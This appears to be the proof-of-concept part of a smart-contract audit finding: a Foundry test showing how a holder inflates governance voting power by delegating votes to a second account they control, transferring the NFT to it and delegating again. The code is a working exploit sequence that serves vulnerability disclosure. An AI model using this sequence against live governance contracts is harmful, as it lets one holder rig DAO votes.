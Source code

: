 ### [](#code-poc)Code POC

    // Insert this test case into Token.t.sol
    // Run: forge test --match-contract Token -vv
    
    import "forge-std/console.sol";
    ...
    function testIncreaseVotePower() public {
            deployMock();
    
            address voter1;
            address voter2;
            uint256 voter1PK;
            uint256 voter2PK;
    
            // Voter with 1 NFT voting power
            voter1PK = 0xABC;
            voter1 = vm.addr(voter1PK);
            vm.deal(voter1, 1 ether);
            // Second account created by same voter
            voter2PK = 0xABD;
            voter2 = vm.addr(voter2PK);
    
    		// Giving voter1 their 1 NFT
            vm.prank(founder);
            auction.unpause();
            vm.prank(voter1);
            auction.createBid{ value: 0.420 ether }(2);
            vm.warp(auctionParams.duration + 1 seconds);
            auction.settleCurrentAndCreateNewAuction();
    
            // Start Exploit
            console.log("Initial Votes");
            console.log("voter1: ", token.getVotes(voter1));
            console.log("voter2: ", token.getVotes(voter2));
            
            vm.prank(voter1);
            token.delegate(voter2);
            console.log("After Delegating Votes, voter1 -> delegate(voter2)");
            console.log("voter1: ", token.getVotes(voter1));
            console.log("voter2: ", token.getVotes(voter2));
    
            vm.prank(voter1);
            token.transferFrom(voter1, voter2, 2); 
            console.log("After Token transfer, voter1 -transferFrom()-> voter2");
            console.log("voter1 votes: ", token.getVotes(voter1));
            console.log("voter2 votes: ", token.getVotes(voter2));
    
            vm.prank(voter2);
            token.delegate(voter2);
            console.log("After Delegating Votes, voter2 -> delegate(voter2)");
            console.log("voter1: ", token.getVotes(voter1));
            console.log("voter2: ", token.getVotes(voter2));
        }
